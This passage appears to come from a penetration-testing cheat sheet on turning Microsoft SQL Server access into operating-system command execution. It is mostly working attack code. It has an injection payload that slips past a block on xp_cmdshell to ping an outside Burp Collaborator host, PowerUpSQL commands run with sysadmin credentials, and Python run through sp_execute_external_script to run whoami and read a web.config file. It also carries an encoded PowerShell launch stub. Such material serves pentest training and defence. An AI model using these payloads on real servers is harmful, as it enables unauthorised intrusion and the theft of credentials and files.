 ```sql
# Bypass blackisted "EXEC xp_cmdshell"
'; DECLARE @x AS VARCHAR(100)='xp_cmdshell'; EXEC @x 'ping k7s3rpqn8ti91kvy0h44pre35ublza.burpcollaborator.net' —
```

Alternatively, we may use [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) to acheive the same goal.

```powershell
Invoke-SQLOSCmd -Username sa -Password pw -Instance instance -Command whoami
```

### Python Scripts

We can execute python scipts as follows (needs `sysadmin` privileges).

Commands will runs with privileges of a dynamically created Windows user account (member of the `SQLRUserGroup`).

{% hint style="danger" %}
Python was introduced in SQL Server 2017. Runtime environments must be installed as a prerequisite (wich is not by default).
{% endhint %}

```sql
#Print the user being used (and execute commands)
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("getpass").getuser())'
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("os").system("whoami"))'
#Open and read a file
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(open("C:\\inetpub\\wwwroot\\web.config", "r").read())'
#Multiline
EXECUTE sp_execute_external_script @language = N'Python', @script = N'
import sys
print(sys.version)
'
GO
```

Alternatively, we may use [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) to acheive the same goal.

```python
Invoke-SQLOSR -Username sa -Password pw -Instance instance -Command "powershell -e <base64encodedscript>" -Verbose
Invoke-SQLOSPython -Username sa -Password pw -Instance instance -Command "powershell -e <base64encodedscript>" -Verbose
```

### OLE Automation Procedure

We can execute commands through a stored procedure utilizing Object Linking and Embedding (OLE) technology.  (needs `sysadmin` privileges).
